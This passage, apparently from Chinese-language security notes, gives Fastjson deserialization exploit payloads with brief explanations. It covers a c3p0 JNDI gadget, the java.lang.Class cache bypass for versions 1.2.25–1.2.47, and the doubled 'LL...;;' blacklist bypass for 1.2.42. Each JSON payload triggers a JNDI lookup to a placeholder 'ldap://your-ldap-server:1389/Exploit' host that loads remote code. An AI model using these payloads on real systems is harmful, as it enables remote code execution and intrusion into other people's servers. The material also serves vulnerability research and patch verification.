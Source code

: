     - `com.mchange.v2.c3p0.JndiRefForwardingDataSource`
        
        要求：目标应用的`classpath`中需包含`c3p0`数据库连接池库
        
        payload：
        
        ```java
        {
            "@type":"com.mchange.v2.c3p0.JndiRefForwardingDataSource",
            "jndiName":"ldap://your-ldap-server:1389/Exploit", 
            "loginTimeout":0
        }
        ```
        
3. 缓存绕过
    
    使用说明：在`autoType`未开启的情况下能成功利用（`1.2.25`-`1.2.32`版本），或者在开启的情况下通用（`1.2.33`-`1.2.47`版本）
    
    原理：该方法分两步走。第一步，利用不在黑名单中的`java.lang.Class`，将一个危险的类（如`com.sun.rowset.JdbcRowSetImpl`）的Class对象加载到Fastjson的全局缓存`Map`中。第二步，直接反序列化这个危险的类。由于Fastjson会优先从缓存中获取类的定义，因此成功绕过了`checkAutoType`的黑名单检查
    
    payload：
    
    ```java
    {
        "a":{
            "@type":"java.lang.Class",
            "val":"com.sun.rowset.JdbcRowSetImpl"
        },
        "b":{
            "@type":"com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName":"ldap://your-ldap-server:1389/Exploit",
            "autoCommit":true
        }
    }
    ```
    

## 1.2.42

### 原理

和1.2.41相比就是不能使用`L+;`绕过了

### 绕过

1. `LL+;;`绕过
    
    原理：
    
    `1.2.42` 版本的开发者修复了 `L...;` 绕过，很可能是通过检查类名是否以 `L` 开头和以 `;` 结尾，如果是就去除掉再进行黑名单比对。研究发现，如果将 `L` 和 `;` **双写**，例如将 `com.sun.rowset.JdbcRowSetImpl` 变为 `LLcom.sun.rowset.JdbcRowSetImpl;;`，就可以绕过新的防御
    
    payload：
    
    ```java
    {
        "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
        "dataSourceName":"ldap://your-ldap-server:1389/Exploit", 
        "autoCommit":true
    }
    ```
    